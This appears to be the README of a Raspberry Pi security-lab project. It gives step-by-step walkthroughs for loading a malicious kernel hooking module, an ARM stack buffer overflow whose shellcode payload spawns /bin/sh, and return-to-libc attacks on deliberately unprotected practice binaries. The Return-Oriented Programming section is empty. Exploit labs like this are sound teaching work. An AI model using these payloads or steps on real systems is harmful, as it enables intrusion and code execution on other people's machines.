 # HackRPi
- [System Call Hooking](https://github.com/korkeep/HackRPi#system-call-hooking-)
- [Buffer Overflow](https://github.com/korkeep/HackRPi#buffer-overflow-)
- [Return-To-Libc](https://github.com/korkeep/HackRPi#return-to-libc-)
- [Return-Oriented Programming](https://github.com/korkeep/HackRPi#return-oriented-programming-)

## System Call Hooking 🐱‍💻
### Insert kernel files to RPi
- **Step 1**: Mount SD card  
```
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mkdir /mnt/fs
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 2**: Copy kernel image  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/zImage /mnt/raspi/kernel7.img
```
- **Step 3**: Copy modules  
```
kss@ubuntu:~/HackRPi$ sudo cp -r ./linux/4.4.50-v7+/ /mnt/fs/lib/modules/
```
- **Step 4**: Copy device tree blob  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb /mnt/raspi/
```
- **Step 5**: Copy device tree blob overlays  
```
kss@ubuntu:~/HackRPi$ sudo cp ./linux/*.dtb* /mnt/raspi/overlays
kss@ubuntu:~/HackRPi$ sudo cp ./linux/README /mnt/raspi/overlays
```
- **Step 6**: Unmount SD card  
```
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
### Kernel modification attack
- **Step 1**: Check malicious module  
![image](https://user-images.githubusercontent.com/20378368/107459865-6d6e1a80-6b9a-11eb-9713-7319c7e2b622.png)  
- **Step 2**: Check SD card  
```
kss@ubuntu:~/HackRPi/Hook$ lsblk
```
![image](https://user-images.githubusercontent.com/20378368/107325262-d303cd80-6aec-11eb-85fe-6e6c9f196352.png)  
- **Step 3**: Mount SD card  
```
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb1 /mnt/raspi
kss@ubuntu:~/HackRPi/Hook$ sudo mount /dev/sdb2 /mnt/fs
```
- **Step 4**: Copy malicious module  
```
kss@ubuntu:~/HackRPi/Hook$ cd ..
kss@ubuntu:~/HackRPi$ sudo cp -r ./Hook /mnt/fs/home/pi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/raspi
kss@ubuntu:~/HackRPi$ sudo umount /mnt/fs
```
- **Step 5**: Insert malicious module to RPi  
```
pi@raspberrypi:~/Hook$ sudo insmod hooker.ko
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107735072-30dd2300-6d42-11eb-888f-a2340d252d6c.PNG)

## Buffer Overflow 🐱‍💻
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/BOF $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
pi@korkeep:~/BOF $ gcc -fno-stack-protector -z execstack BOF.c -o BOF
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/BOF $ gdb -q BOF
(gdb) start
```
- **Step 4**: Disassemble main  
```
(gdb) disassemble main
```
![image](https://user-images.githubusercontent.com/20378368/107657827-e1a6dc00-6cc8-11eb-9891-0387c6b8c34b.png)  
- **Step 5**: Set a breakpoint to hack  
```
// Breakpoint target:
// 0x00010530 <+40>:    mov     r3, #0
(gdb) b *0x00010530
```
- **Step 6**: Analyze address state  
```
(gdb) x/100x $sp-200
```
![image](https://user-images.githubusercontent.com/20378368/107655183-a86d6c80-6cc6-11eb-9a09-7223b26fdd69.png)  
- **Step 7**: Buffer overflow using NOP sled  
```
// Target address: 0x7efff570
(gdb) run $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x70\xf5\xff\x7e"')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107658056-1dda3c80-6cc9-11eb-9173-69a569d9439f.png)  

## Return-To-Libc 🐱‍💻
### Original RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
// To practice RTL attack, you should compile with all these options
// However, Raspberry Pi3 does not support some options
pi@korkeep:~/RTL $ gcc -m32 -mpreferred-stack-boundary=2 -fno-stack-protector -no-pie -fno-pic -o RTL RTL.c
```
![image](https://user-images.githubusercontent.com/20378368/107732766-87476300-6d3c-11eb-88cf-ee929dbae4ee.png)  
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
![image](https://user-images.githubusercontent.com/20378368/107732076-c70d4b00-6d3a-11eb-9929-fd4c3664b426.png)  
- **Step 4**: Print system() address  
```
(gdb) print system
```
![image](https://user-images.githubusercontent.com/20378368/107729508-7bf03980-6d34-11eb-91f3-331a02ad046f.png)  
- **Step 5**: Find /bin/sh address  
```
(gdb) find &system, +99999999, "/bin/sh"
```
![image](https://user-images.githubusercontent.com/20378368/107729545-90343680-6d34-11eb-8a79-fc45acf8ab5c.png)  
- **Step 6**: RTL attack using system(), /bin/sh address  
```
// Target address: 0x76e9ffac, 0x76f83c68
(gdb) run $(python -c 'print("A"*16+"\xac\xff\xe9\x76"+"A"*4+"\x68\x3c\xf8\x76")')
```
### Alternative RTL attack scheme
- **Step 1**: Unlock ASLR  
```
pi@korkeep:~/RTL $ sudo sysctl -w kernel.randomize_va_space=0
```
- **Step 2**: Compile without stack protection  
```
// Instead, HackRPi provides alternative source to practice RTL
// system("/bin/sh") function is manually added at RTL.c
pi@korkeep:~/RTL $ gcc -fno-stack-protector -z execstack -fno-pic -o RTL RTL.c
```
- **Step 3**: Debugging with gdb  
```
pi@korkeep:~/RTL $ gdb -q RTL
(gdb) start
```
- **Step 4**: Disassemble rtl()  
```
(gdb) disassemble rtl
```
![image](https://user-images.githubusercontent.com/20378368/107731737-0ab38500-6d3a-11eb-9b3e-07e1e3181b0b.png)  
- **Step 5**: Find system(), /bin/sh address  
```
(gdb) x/x 0x10494
(gdb) x/s 0x10558
```
![image](https://user-images.githubusercontent.com/20378368/107734782-8ebd3b00-6d41-11eb-83c3-b4d42e5740ae.png)  
- **Step 6**: RTL attack using ldr address  
```
//Target: 0x00010488
(gdb) run $(python -c 'print("A"*16+"\x88\x04\x01")')
```
- **Result**  
![image](https://user-images.githubusercontent.com/20378368/107734200-3174ba00-6d40-11eb-8306-32b063492b3f.png)  

## Return-Oriented Programming 🐱‍💻
